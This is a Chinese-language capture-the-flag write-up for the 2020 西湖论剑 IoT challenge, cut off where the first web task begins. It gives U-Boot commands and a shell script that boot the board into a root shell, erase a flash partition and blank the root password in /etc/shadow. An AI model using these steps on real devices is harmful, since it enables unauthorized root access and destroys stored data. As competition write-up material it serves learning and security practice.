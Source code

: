 # 西湖论剑2020-IoT闯关赛-WEB-WriteUp

[toc]

## 获取设备shell
按reset重启，然后串口工具中快速按回车进入uboot，输入如下两条命令，长的命令需要多次复制   

```
=> setenv bootargs_common "console=ttyS0,115200 earlyprintk rootwait init=/bin/sh consoleblank=0 net.ifnames=0 biosdevname=0 rootfstype=jffs2"
=> boot
```

启动后进入没有题目的root shell，此时板子还没有ip地址，直接复制如下命令（全部复制），粘贴到shell里：   

```
#!/bin/sh
mount proc /proc -t proc
set -- $(cat /proc/cmdline)
umount /proc
for x in "$@"; do
    case "$x" in
        overlayfsdev=*)
        OVERLAYFSDEV="${x#overlayfsdev=}"
        mtd erase /dev/mtd5
        mount -n -t jffs2 ${OVERLAYFSDEV} -o rw,noatime /overlay
        mkdir -p /overlay/rom/lower /overlay/rom/upper /overlay/rom/work
        mount -n -t overlay overlayfs:/overlay/rom -o rw,noatime,lowerdir=/,upperdir=/overlay/rom/upper,workdir=/overlay/rom/work /tmp
        mount --rbind /dev /tmp/dev/
        mount --rbind /overlay /tmp/overlay/
        mount --rbind / /tmp/overlay/rom/lower
        echo "root::::::::" > /tmp/etc/shadow
        exec chroot /tmp /sbin/init
        ;;
    esac
done
exec /sbin/init
```

然后用root，空密码应该就可以登录了，此时板子`20.20.11.14`应该已经可以ping通了    

## IoT-Web1 版本更新
>题目说明:路由器在检测版本更新的过程中，出现了一个意料之外的问题。题目端口80（flag在根目录或者/workspace下）   

### 思路
出题人没有给固件或者binary，考点是黑盒测试。   
但是IoT设备的安全研究可以通过很多方法获取到固件或者shell，例如上述的方法获得了shell，该题的难度就大大降低了。   

### 分步解答

